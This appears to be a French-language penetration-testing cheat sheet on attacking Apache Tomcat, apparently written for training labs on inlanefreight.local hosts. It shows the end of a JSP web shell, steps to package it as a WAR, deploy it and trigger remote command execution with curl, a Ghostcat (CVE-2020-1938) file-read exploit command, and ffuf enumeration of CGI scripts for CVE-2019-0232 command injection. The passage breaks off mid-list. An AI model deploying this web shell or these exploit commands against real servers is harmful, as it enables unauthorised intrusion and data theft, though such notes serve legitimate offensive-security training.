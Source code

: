 ```java
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

2. Archiver au format WAR

```shell
zip -r backup.war bb58021f870b5f85c6c24120540de43f.jsp
```

3. Cliquer sur Browse -> Séléctionner l'archive
4. Deploy
5. RCE 

```shell
curl http://web01.inlanefreight.local:8180/backup/bb58021f870b5f85c6c24120540de43f.jsp?bb58021f870b5f85c6c24120540de43f=id
```

6. Supprimer l'archive avec Undeploy pour nettoyer


## CVEs

- [[#Ghostcat (CVE-2020-1938) (< 9.0.31, 8.5.51 & 7.0.100)]]
- [[#CVE-2019-0232 (9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93)]]


### Ghostcat (CVE-2020-1938) (< 9.0.31, 8.5.51 & 7.0.100)

Unauthenticated LFI (uniquement sur les fichier dans la racine du dossier web)

https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi

```shell
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 
```

### CVE-2019-0232 (9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93)

> [!TIP]
>  Si enableCmdLineArguments activé -> possible de faire des injections de commandes

#### Identifier Scripts CGI

.cmd

```shell
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

.bat
